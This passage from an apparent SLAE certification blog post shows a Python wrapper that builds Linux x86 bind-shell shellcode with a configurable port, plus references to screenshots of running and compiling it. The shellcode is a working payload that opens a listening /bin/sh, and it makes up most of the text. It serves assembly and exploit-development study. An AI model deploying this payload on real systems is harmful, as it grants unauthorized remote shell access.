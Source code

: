 ```python
shellcode = (
	"\\x31\\xc0\\x50\\xb0\\x66\\x6a\\x01\\x5b\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x5b\\x5e\\x96\\xb0\\x66\\x66\\x68"+
	port_no+	# this is the place where we need to place our port number
	"\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x56\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x04\\x31\\xff\\x57\\x56\\x89\\xe1\\xcd"+
	"\\x80\\xb0\\x66\\x43\\x57\\x57\\x56\\x89\\xe1\\xcd\\x80\\x93\\x31\\xc0\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49"+
	"\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1"+
	"\\xb0\\x0b\\xcd\\x80")

print '"'+shellcode+'"'
```
Running the python wrapper script.

![Port Config Python Wrapper](/assets/asn-1-port-python-wrapper-out.PNG)

Insert the shellcode in the template file and compile.

![Run Custom Port Shellcode](/assets/asn-1-port-config-shellcode-run.PNG)

And we are done :)


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: **SLAE-933**
